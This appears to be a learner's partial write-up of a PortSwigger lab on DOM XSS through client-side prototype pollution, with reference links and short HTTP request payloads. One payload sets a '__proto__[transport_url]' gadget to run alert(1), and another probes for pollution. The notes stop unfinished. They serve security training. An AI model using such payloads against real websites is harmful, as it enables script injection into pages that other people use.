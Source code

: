 # [Client-side prototype pollution](https://portswigger.net/web-security/prototype-pollution)

materials:

[Widespread prototype pollution gadgets](https://portswigger.net/research/widespread-prototype-pollution-gadgets)

[JavaScript prototypes and inheritance](https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance)

[What is prototype pollution?](https://portswigger.net/web-security/prototype-pollution/what-is-prototype-pollution)

[Finding prototype pollution vulnerabilities](https://portswigger.net/web-security/prototype-pollution/finding)

[Testing for client-side prototype pollution](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution)


# [1. Lab: DOM XSS via client-side prototype pollution](https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution)

 This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

    Find a source that you can use to add arbitrary properties to the global Object.prototype.

    Identify a gadget property that allows you to execute arbitrary JavaScript.

    Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you. 


1. using DOM invader: 
idetify with invader sinks + search for gadgets + exploit:
```
GET /?__proto__[transport_url]=data:,alert(1) HTTP/1.1
```
2. manually:
send a request to 
```
GET ?__proto__[foo]=bar HTTP/1.1
```
in the console test for pollution:
```
>Object.prototype.foo
<'bar'
```
we have pollution. lets fimd a way to utilize it:
\TBC
\
\
